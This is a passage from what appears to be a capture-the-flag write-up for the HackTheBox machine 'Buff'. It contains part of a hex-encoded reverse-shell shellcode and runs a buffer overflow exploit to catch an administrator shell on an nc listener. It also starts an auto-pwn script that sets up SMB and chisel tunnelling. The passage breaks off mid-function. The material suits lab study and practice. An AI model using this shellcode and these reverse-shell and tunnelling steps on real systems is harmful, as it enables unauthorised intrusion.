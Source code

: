 ```bash
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";
```

We replace the payload and run the exploit.

```bash
root@darkness:~# python3 bof.py
```

Let us check back to our listener:

```bash
root@darkness:~# nc -lnvp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.198.
Ncat: Connection from 10.10.10.198:49683.
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
buff\administrator
```

We successfully get a shell as administrator and can read root.txt.

```powershell
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
b88a1***************************
```



### Bonus: Writing an auto-pwn exploit script

In order to automatically exploit the machine, we have to combine our previous exploit script with our new additions. This will be a breakdown of the exploit code. The [full exploit code](https://github.com/chr0x6eos/HTB/blob/master/Buff/buff.py) can be found on my [GitHub](https://github.com/chr0x6eos/HTB/tree/master/Buff).

Our requirements are the following:

1. Setup chisel tunnel

   ```python
   # Setup chisel tunnel to access port 8888
   def setup_tunnel():
       log.info("Setting up tunnel this may take a couple of minutes...")
       
       # Get user shell
       shell = get_user()
       
       # Start smb server
       smb = Process(target=setup_smb, args=["/opt/chisel/"])
       smb.daemon = True
       smb.start()
   
       # Start chisel server
       server = Process(target=chisel_server)
       server.daemon = True
       server.start()
   
       
   ```